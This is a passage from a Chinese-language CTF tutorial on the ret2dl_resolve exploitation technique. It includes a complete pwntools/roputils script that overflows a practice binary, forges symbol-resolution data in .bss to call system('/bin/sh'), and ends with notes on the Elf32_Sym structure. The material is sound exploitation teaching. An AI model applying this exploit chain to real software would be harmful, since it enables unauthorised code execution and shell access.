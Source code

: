 ​	参见代码**stage6_roputils.py**

​	代码如下：

```python
#!/usr/bin/python
#coding:utf-8

import roputils
from pwn import *
#只需确定文件名+溢出偏移。roputils.py文件要放到同一目录下
fpath = './bof'
offset = 112

rop = roputils.ROP(fpath)
addr_bss = rop.section('.bss')

buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p=process(fpath)
print p.recv()
p.send(p32(len(buf)) + buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)

p.send(buf)
p.interactive()
```

####（3）32位执行libc任意gadget

​	首先看看正常的Elf32_Sym结构（read）：

```c
typedef struct
{
    Elf32_Word st_name;     // Symbol name(string tbl index)  表示在.dynstr中的偏移
    Elf32_Addr st_value;    // Symbol value
    Elf32_Word st_size;     // Symbol size
    unsigned char st_info;  // Symbol type and binding
    unsigned char st_other; // Symbol visibility under glibc>=2.2
    Elf32_Section st_shndx; // Section index
} Elf32_Sym;
```

​	如下可见read函数的结构的值和参数意义：

![JMPREL-SYMTAB](/Users/john/Desktop/CTF/我的pwn题/12dl_resolve/test/dl_resolve_64/picture/JMPREL-SYMTAB.png)

![JMPREL-SYMTAB2](/Users/john/Desktop/CTF/我的pwn题/12dl_resolve/test/dl_resolve_64/picture/JMPREL-SYMTAB2.png)
